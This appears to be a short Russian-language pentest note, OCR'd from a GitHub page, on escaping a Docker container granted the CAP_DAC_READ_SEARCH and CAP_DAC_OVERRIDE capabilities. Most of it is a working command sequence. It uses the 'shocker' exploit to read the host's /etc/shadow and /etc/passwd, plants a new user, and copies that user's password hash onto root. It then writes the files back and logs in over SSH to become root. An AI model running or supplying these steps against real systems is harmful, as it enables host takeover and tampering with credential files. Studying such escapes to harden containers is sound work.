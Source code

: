 # CAP_DAC_READ_SEARCH + CAP_DAC_OVERRIDE

CAP_DAC_OVERRIDE - пропуск проверки доступа к файлу на чтение, запись и выполнение (DAC или discretionary access control - избирательный контроль доступа)

Набор утилит в контейнере
```bash
apt install -y vim # or any other editor
apt install -y ssh
apt install -y gcc
apt install john -y # John the Ripper password cracker package
apt install net-tools
apt install -y netcat
```

Запуск уязвимого контейнера 
```bash
sudo docker run -it --cap-add=DAC_READ_SEARCH -cap-add=DAC_OVERRIDE ubuntu_golden_image:v01 bash
```

Перезапись файла
```bash
# Copy and paste the shocker.c content
vim shocker.c
gcc -o read shocker.c
# Copy and paste the shocker_write.c content
vim shocker_write.c
gcc -o write shocker_write.c
# Use the ./read to read files from host: ./read /host/path /container/path
./read /etc/shadow shadow
./read /etc/passwd passwd
# Create new user and reset its password
useradd <USER-NAME>
echo '<USER-NAME>:<PASSWORD>' | chpasswd 
# Update the new user details in the copied files from host
tail -1 /etc/passwd >> passwd
tail -1 /etc/shadow >> shadow
# Copy the new user password hash paste it also for the root user in the shadow file. This will allow us to elevate permissions on the host.
vim shadow
# Use the ./write to write files from host: ./write /host/path /container/path
./write /etc/passwd passwd
./write /etc/shadow shadow
# Connect to host over ssh using the new user (unprivileged)
ssh <USER>@<HOST-IP>
# Elevate privileges to root user with the new password
su
```